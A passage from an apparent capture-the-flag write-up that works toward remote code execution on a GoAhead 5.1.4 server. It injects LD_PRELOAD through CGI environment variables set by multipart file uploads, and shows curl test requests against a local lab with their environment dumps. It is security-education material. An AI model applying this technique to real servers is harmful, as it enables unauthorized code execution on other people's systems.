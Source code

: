 Remember got a technique is to set enviroment of `LD_PRELOAD` to attacker's binary to get RCE, but the enviroment set is added the `CGI_` prefix

Look at the issue at github again, it stated that the form variables does not use the prefix when using upload filter

So now we need to figure out how to upload file with CGI

## Upload file

I cannot find any documentation on upload files with `GoAhead`, so I just try the typical way of upload a file is using multipart/form-data, we can use `curl`: https://stackoverflow.com/questions/19116016/what-is-the-right-way-to-post-multipart-form-data-using-curl

```bash
curl -F upload=@test http://localhost:10218/cgi-bin/hello
Welcome to ACTF!

SERVER_NAME=172.18.0.2
REMOTE_HOST=172.18.0.1
SCRIPT_NAME=/cgi-bin/hello
GATEWAY_INTERFACE=CGI/1.1
SERVER_SOFTWARE=GoAhead/5.1.4
FILE_CONTENT_TYPE_upload=application/octet-stream
PATH_INFO=
REQUEST_TRANSPORT=http
DOCUMENT_ROOT=/var/www/goahead
PWD=/var/www/goahead
HTTP_CONTENT_LENGTH=203
REQUEST_URI=/cgi-bin/hello
PATH_TRANSLATED=
FILE_CLIENT_FILENAME_upload=test
QUERY_STRING=
SERVER_URL=0.0.0.0:8081
FILE_SIZE_upload=5
SERVER_HOST=172.18.0.2
HTTP_ACCEPT=*/*
FILE_FILENAME_upload=/tmp/tmp-5.tmp
HTTP_HOST=localhost:10218
AUTH_TYPE=
SERVER_ADDR=172.18.0.2
HTTP_CONTENT_TYPE=multipart/form-data; boundary=------------------------52b99055af16fea4
HTTP_USER_AGENT=curl/7.68.0
SHLVL=1
CONTENT_LENGTH=203
UPLOAD_DIR=/tmp
SERVER_PROTOCOL=HTTP/1.1
SERVER_PORT=8081
SCRIPT_FILENAME=/var/www/goahead/cgi-bin/hello
REMOTE_ADDR=172.18.0.1
REMOTE_USER=
CONTENT_TYPE=multipart/form-data; boundary=------------------------52b99055af16fea4
REQUEST_METHOD=POST
_=/usr/bin/env
```
It works!! Now lets try add a form variable:
```bash
curl -F test=test -F upload=@test http://localhost:10218/cgi-bin/hello
Welcome to ACTF!

SERVER_NAME=172.18.0.2
REMOTE_HOST=172.18.0.1
SCRIPT_NAME=/cgi-bin/hello
GATEWAY_INTERFACE=CGI/1.1
SERVER_SOFTWARE=GoAhead/5.1.4
```